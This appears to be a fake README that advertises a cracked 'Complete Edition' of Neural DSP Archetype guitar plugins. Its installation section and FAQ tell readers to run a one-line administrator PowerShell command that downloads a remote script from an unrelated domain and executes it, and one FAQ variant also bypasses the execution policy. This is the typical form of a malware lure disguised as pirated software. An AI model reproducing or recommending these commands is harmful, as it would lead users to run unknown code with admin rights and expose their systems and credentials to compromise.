

<div align="center">


<br>


# Neural DSP Archetype Guitar Suite Premium
**Premium guitar amp modeling · Artist signature tones · Advanced cab simulation**
<br>
**Premium guitar amp modeling · Artist signature tones · Advanced cab simulation**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all Archetype modules and premium guitar amp suites enabled.**

</div>
---

> Licensed premium Archetype suite with artist amp models and every advanced cab simulation module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎛️ **Studio modules** — Premium instruments and effects enabled.
🔌 **Plugin ready** — VST workflow on Windows DAWs.
🎚️ **Mix pipeline** — Presets and routing profiles included.
📦 **Offline studio** — Work locally after setup.
🎹 **Sound libraries** — Factory and expansion content supported.
🖥️ **Windows optimized** — Built for audio workstations.
⚡ **One command setup** — PowerShell handles install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB |
| **Disk** | 2 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB, 2 GB.
</details>


TAGS
neural-dsp, guitar-amp-modeling, archetype-suite, cab-simulation, artist-tones, effects-chain, professional, windows, desktop, software, pro, studio, tools
